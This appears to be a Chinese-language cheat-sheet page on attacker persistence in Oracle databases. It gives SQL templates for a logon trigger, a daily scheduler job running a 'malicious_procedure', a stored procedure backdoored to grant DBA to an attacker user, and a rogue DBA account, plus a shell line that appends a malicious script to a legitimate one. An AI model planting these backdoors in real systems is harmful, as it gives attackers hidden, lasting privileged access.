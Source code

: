 ## 持久化

### 触发器

```sql
CREATE OR REPLACE TRIGGER maintain_access_trigger
AFTER LOGON ON DATABASE
BEGIN
   EXECUTE IMMEDIATE 'CREATE OR REPLACE FUNCTION ...';
   -- Additional malicious activity here
END;
```

### 预定工作

```sql
BEGIN
   DBMS_SCHEDULER.create_job (
      job_name        => 'maintain_access_job',
      job_type        => 'PLSQL_BLOCK',
      job_action      => 'BEGIN malicious_procedure; END;',
      start_date      => SYSTIMESTAMP,
      repeat_interval => 'FREQ=DAILY;',
      enabled         => TRUE);
END;
```

该作业每天都会执行该malicious_procedure程序

### 存储过程

```sql
CREATE OR REPLACE PROCEDURE existing_procedure AS
BEGIN
   -- Original code
   ...

   -- Malicious code
   execute_immediate 'GRANT DBA TO ATTACKER_USER';
END;
```

### 新建用户

```sql
CREATE USER rogue_account IDENTIFIED BY password;
GRANT DBA TO rogue_account;
```

### 修改现有二进制文件或脚本

```sql
# Attacker modifies a legitimate shell script to also call their malicious script
echo "/path/to/malicious_script.sh" >> /path/to/legitimate_script.sh
```
